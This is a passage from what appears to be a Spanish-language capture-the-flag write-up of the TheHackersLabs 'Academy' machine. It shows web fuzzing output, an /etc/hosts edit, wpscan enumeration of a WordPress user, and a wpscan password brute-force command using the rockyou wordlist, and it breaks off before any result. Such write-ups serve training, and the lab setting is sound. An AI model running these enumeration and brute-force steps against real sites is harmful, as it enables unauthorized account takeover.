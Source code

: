 ```css
[15:07:42] 301 -  328B  - /wordpress/wp-includes  ->  http://192.168.6.36/wordpress/wp-includes/
Added to the queue: wordpress/wp-includes/
[15:09:40] 301 -  325B  - /wordpress/wp-admin  ->  http://192.168.6.36/wordpress/wp-admin/
Added to the queue: wordpress/wp-admin/
```

Me encuentro que estamos frente a un directorio wordpress, por lo general las paginas de wordpress no suelen verse bien si no se agrega la dirección en el archivo `/etc/hosts` para ello voy a realizar el siguiente procedimiento ingreso a la siguiente url `http://192.168.6.36/wordpress` luego voy a ver el codifo fuente de la página presionando `ctrl +u` puedo observar que la web apunta a la dirección `academy.thl`

![001Academy.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/thehackerslabs/Academy/001Academy.png)

Procedo a configurar el archivo `/etc/hosts`

```bash
nano /etc/hosts
```

agrego la ip `192.168.6.36` indicando que apunte a la dirección academy.thl

![002Academy.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/thehackerslabs/Academy/002Academy.png)

En el fuzzing web se pudo descubrir adicionalmente el directorio `academy.thl/wordpress/wp-admin` el cual sabemos que es una pagina de login para la administración de wordpress, pero no tengo usuario ni contraseña, para ello voy hacer uso de la herramienta wpscan para enumerar el usuario

```bash
wpscan --url http://academy.thl/wordpress --enumerate u,vp
```

| parametro | Descripcion                         |
| --------- | ----------------------------------- |
| --url     | url de la pagina a realizar fuzzing |
| u         | para que intente enumerar usuarios  |
| vp        | para enumerar plugins               |

El escaneo nos arroja un usuario `dylan`

```css
[i] User(s) Identified:

[+] dylan
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://academy.thl/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

ahora que tengo el usuario voy a intentar conseguir la contraseña

```bash
wpscan --url http://academy.thl/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames dylan
```

| parametro   | descripcion                         |
| ----------- | ----------------------------------- |
| --url       | url de la pagina a realizar fuzzing |
| --passwords | path de diccionario de contraseña   |
| -usernames  | usuario                             |
